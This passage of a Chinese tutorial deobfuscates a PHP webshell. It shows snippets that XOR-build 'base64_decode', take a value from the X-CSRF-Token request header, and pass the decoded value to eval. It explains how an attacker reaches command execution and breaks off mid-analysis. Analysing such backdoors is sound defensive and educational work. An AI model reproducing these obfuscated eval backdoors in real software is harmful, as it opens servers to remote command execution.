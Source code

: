 由 1.6 讲到的知识点，结合 PHP 代码可得：

> if (!isset($\_SESSION\['token'\])) 这行代码首先检查当前会话（session）中是否存在名为 "token" 的变量。  
> $\_SESSION 是用于在 PHP 中存储会话数据的关联数组，通常用于在不同页面之间共享数据。isset 函数用于检查变量是否已经被设置，如果变量存在并且有值，返回 true，否则返回 false。

所以根据知识点，我们要先给服务器发一个 `Token` 值，这样就可以进入 IF，服务器就会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过 HTTP 头部返回给客户端

但 `Token` 只需要获取一次就行了，因为服务器生成并返还令牌（token）后，会存在会话（session）中，简单理解就是服务器的内存当中，后续的使用就不要添加`Token` 值了  
**【因为如果再获取，令牌（token）又会重新生成，就无法进入 else 的后续步骤，这一步可能有点绕，不明白的师傅不妨上手实践一下哈哈】**

```plain
$v=$_SERVER['HTTP_X_CSRF_TOKEN'];
$b='DQHNGW'^'&0;+qc';
$b.= '_dec'.chr(111).'de';
$v=$b($v."");
```

由 8.1 讲到的异或和 0.1 讲到的拼接赋值，以上代码可转化为：

```plain
$v = $_SERVER['HTTP_X_CSRF_TOKEN'];
$b = "base64_decode";
$v = $b($v."");
```

意思就是，从 HTTP 请求头获取名为 "HTTP\_X\_CSRF\_TOKEN" 的值，并进行 Base64 解密再讲值重新赋给 `$v`

接下来我们再来看类 `class E` :

```plain
class E {
        public function __construct($p) {
            $c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
            $e = $c($p);
            eval(null.$e."");
        }
    }
```

同样根据相关知识点，我们可以将以上代码转化为以下：

```plain
class E {
        public function __construct($p) {
            $c = "base64_decode";
            $e = $c($p);
            eval(null.$e."");
        }
    }
```

意思就是类 `class E` 接受一个参数 `$p`，将其通过 Base64 解密后，放入高危函数 `eval` 内执行  
**那我们想要成功执行命令，就必须控制 `$p` 的传入值**

那我们看看所谓的 `$p` 是从哪里传入的吧：

```plain
@new E(set_token($v, $_SESSION['token']));
```
